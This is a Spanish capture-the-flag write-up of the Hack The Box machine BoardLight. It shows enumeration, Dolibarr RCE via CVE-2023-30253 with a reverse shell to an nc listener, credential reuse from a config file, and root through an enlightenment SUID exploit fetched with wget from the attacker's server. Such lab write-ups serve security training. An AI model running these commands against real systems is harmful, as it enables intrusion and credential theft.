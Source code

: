 ```yaml
---
title: BoardLight
description: Boardlight es una máquina de dificultad fácil que cuenta con una instancia de dolibarr vulnerable a CVE-2023-30253. Esta vulnerabilidad se aprovecha para obtener acceso como www-data. Después de enumerar y volcar el contenido del archivo de configuración web, se encuentran las credenciales en texto plano que conducen al acceso ssh de la máquina. Al enumerar el sistema, se identifica un binario SUID relacionado con enlightenment que es vulnerable a una escalada de privilegios a través de CVE-2022-37706 y puede ser explotado para obtener un shell con privilegios de root.
date: 2024-06-03
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-boardlight/boardlight_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - fuzzing_web
  - rce
  - cve
  - data_leaks
  - misconfigurations
  - suid
  - ssh
  - http
  - tcp
  - information_gathering
  - web_analysis
  - cve_exploitation
  - lateral_movement
  - privilege_escalation


---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.11.11 -oG map1
Host: 10.10.11.11 ()	Status: Up
Host: 10.10.11.11 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///

/home/kali/Documents/htb/machines/boardlight:-$ sudo nmap -sCV -p22,80 -vvv -oG map2 10.10.11.11
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

![](/assets/img/htb-writeup-boardlight/boardlight1_1.png)

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ dirb http://10.10.11.11 /usr/share/wordlists//seclists/Discovery/DNS/subdomains-top1million-20000.txt
==> DIRECTORY: http://10.10.11.11/img/
==> DIRECTORY: http://10.10.11.11/css/
==> DIRECTORY: http://10.10.11.11/js/

/home/kali/Documents/htb/machines/boardlight:-$ ffuf -u http://board.htb/ -H 'Host: FUZZ.board.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
```

![](/assets/img/htb-writeup-boardlight/boardlight1_2.png)

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ curl -s http://board.htb | wc -c
15949
```
El resultado '15949' indica que la respuesta de la página tiene 15,949 bytes.

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ ffuf -u http://board.htb -H 'Host: FUZZ.board.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ic -t 200 -c -fs 15949
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 1328ms]
```
'fs 15949' filtra las respuestas por tamaño. En este caso, se filtran respuestas que tienen un tamaño de 15,949 bytes (el mismo tamaño que el de la página inicial).

El subdirectorio que se encontró 'crm' devuelve un código de estado HTTP 200 con un tamaño de 6360 bytes. El hecho de que el tamaño sea diferente al de la página inicial (15949 bytes) indica que este directorio tiene contenido distinto.

---
## Web Analysis & CVE Exploitation

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ echo '10.10.11.11\tboard.htb\tcrm.board.htb' | sudo tee -a /etc/hosts
```

![](/assets/img/htb-writeup-boardlight/boardlight2_1.png)

Antes de buscar vulnerabilidades para 'Dolibarr', pruebo autentificarme con credenciales por defecto.

El login resulta valido con 'user:admin', 'password:admin'.

![](/assets/img/htb-writeup-boardlight/boardlight2_2.png)

Dolibarr 17.0.0 es vulnerable a Remoted Code Execution.

<https://nvd.nist.gov/vuln/detail/CVE-2023-30253>

<https://github.com/Rubikcuv5/cve-2023-30253>

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ git clone https://github.com/Rubikcuv5/cve-2023-30253.git

/home/kali/Documents/htb/machines/boardlight:-$ nc -lnvp 4444
	listening on [any] 4444 ...

/home/kali/Documents/htb/machines/boardlight:-$ python3 CVE-2023-30253.py --url http://crm.board.htb/ -u admin -p admin -r 10.10.16.5 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection

	... connect to [10.10.16.5] from (UNKNOWN) [10.10.11.11] 58436

www-data@boardlight:~$ whoami
www-data
```

---
## Lateral Movement

Despues de conseguir el foothold, enumero el sistema y encuentro la contraseña ssh para el usuario 'larissa'.
```terminal
www-data@boardlight:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```
```
www-data@boardlight:~/html/crm.board.htb$ find . -name \*conf\* 2>/dev/null
./htdocs/conf/conf.php

www-data@boardlight:~/html/crm.board.htb$ cat html/htdocs/conf/conf.php
$dolibarr_main_db_pass='serverfun2$2023!!';
```
```terminal
/home/kali/Documents/htb/machines/boardlight:-$ ssh larissa@10.10.11.11
larissa@10.10.11.11's password: serverfun2$2023!!

larissa@boardlight:~$ cat user.txt
```
---
## Privilege Escalation & CVE Exploitation

Listo privilegios SUID.

```terminal
larissa@boardlight:~$ find / -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
```
La version de 'enlightement' es vulnerable, CVE-2022-37706.

```terminal
larissa@boardlight:~$ dpkg -l | grep enlightenment
hi  enlightenment             0.23.1-4          amd64        X11 window manager based on EFL
hi  enlightenment-data        0.23.1-4          all          X11 window manager based on EFL - run time data files
```
Utilizo el siguiente exploit, <https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit>

```terminal
/home/kali/Documents/htb/machines/boardlight:-$ git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
/home/kali/Documents/htb/machines/boardlight:-$ python3 -m http.server 8001
```
```terminal
larissa@boardlight:/tmp$ wget http://10.10.16.5:8001/exploit.sh
larissa@boardlight:/tmp$ chmod +x exploit.sh
```
```terminal
larissa@boardlight:/tmp$ ./exploit.sh
```
![](/assets/img/htb-writeup-boardlight/boardlight3_1.png)

```terminal
python -c 'import pty;pty.spawn("/bin/bash")'
root@boardlight:~$ cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/608" target="_blank">***Litio7 has successfully solved Boardlight from Hack The Box***</a>
{: .prompt-info style="text-align:center" }